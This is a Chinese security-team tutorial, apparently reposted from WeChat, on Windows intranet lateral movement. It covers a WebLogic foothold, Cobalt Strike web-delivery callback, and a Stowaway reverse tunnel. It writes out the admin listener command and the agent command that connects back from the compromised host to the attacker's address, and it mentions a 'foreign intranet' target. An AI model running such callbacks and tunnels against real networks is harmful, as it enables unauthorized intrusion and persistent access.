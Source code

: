 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkzNzQyMDkxMQ==&mid=2247488245&idx=1&sn=9870902df836c374181d4f7e57312cac

#  一文学会内网横向  
 赤弋安全团队   2025-07-03 08:35  
  
前言  
  
本文以国外内网环境与本地内网靶机环境来进行  
window横向教学。  
  
1、获取权限  
  
这里通过weblogic漏洞获取shell权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXVqx5Qp2wdnGfsgfia0iaBKibZZVbuf5icxd78FhyzaazBtkydz6maibZkojw/640?wx_fmt=png&from=appmsg "")  
  
先上线cs进行控制,可以通过远程下载exe上线，或者web投递上线  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXVtvu1sxibrW0bbTX89onxSibqyTwghYe8Oia95icunZLn0umvrgnPxYPhnQ/640?wx_fmt=png&from=appmsg "")  
  
使用web投递上线  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXV1pGr0jIV2zVAUFUkEOB6sT73tlOwu7icbIibkUFDfB30B19tr99kAicQg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXV9km3No8DRfcwdibynf3RUCQ0tUwlbr2yLZxiarOicLOib9X2q07qibW99TA/640?wx_fmt=png&from=appmsg "")  
  
2、隧道搭建  
  
根据目标是否出网可使用不同的隧道，出网可用反向隧道，不出网可用正向隧道。  
  
2.1反向隧道（国外内网演示）  
  
可以使用frp，nps，  
Stowaway等工具，这里以  
Stowaway工具演示  
  
服务端a执行命令./  
linux_x64_admin -l 5555 -s 7777  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXVzRfAdKt7NmdIE8NJcrb6TIhk644MUnnRmG5jHZ9EC5fVKSibibftD90g/640?wx_fmt=png&from=appmsg "")  
  
被控端b上传  
windows_x64_agent.exe，执行命令  
  
windows_x64_agent.exe -c 192.168.21.128:5555 -s 7777 --reconnect 10，-c为服务端的ip与端口，-s与服务端相同  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXVIqtIBqbZ0FMbWhlgk1TvQocIRMEXUtxFOV9cZsOdkvOWOXU9xmtEPA/640?wx_fmt=png&from=appmsg "")  
  
服务端收到请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXVNx83Tr45awpFqu7ibHkcCPLJJayrvBcDm1tIchFloDZyTu88icmVy9BA/640?wx_fmt=png&from=appmsg "")  
  
连接节点，设置socks端口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fp1zrrz1Uibibyht5uWXOeI4Clw03FQrXVB0L4DY4omQCbU4yCo0nk6jfBvD07Uh1e9EjdM7THkWDnvKky5cGZvw/640?wx_fmt=png&from=appmsg "")  
  